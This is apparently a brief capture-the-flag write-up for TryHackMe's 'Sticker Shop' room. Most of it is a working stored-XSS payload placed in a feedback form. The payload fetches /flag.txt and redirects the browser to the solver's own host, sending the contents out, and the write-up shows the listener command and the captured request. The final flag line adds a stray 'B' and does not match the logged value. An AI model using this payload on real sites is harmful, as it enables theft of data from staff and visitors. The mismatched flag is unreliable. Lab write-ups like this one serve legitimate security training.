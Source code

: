 https://tryhackme.com/r/room/thestickershop

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Can you read the flag at `http://10.10.216.148:8080/flag.txt`[](http://10.10.216.148:8080/flag.txt)?

```
http://10.10.216.148:8080/submit_feedback

terminal 
python3 -m http.server 8081

feedback form
<img src='http://10.10.85.133'>

<script>
fetch('/flag.txt')
.then(response => response.text())
.then(data => {
	window.location.href = 'http://10.10.85.133:8081/receive?flag=' + encodeURIComponent(data);
});
</script>


"GET /receive?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 404 -

THM{B83789a69074f636f64a38879cfcabe8b62305ee6}
```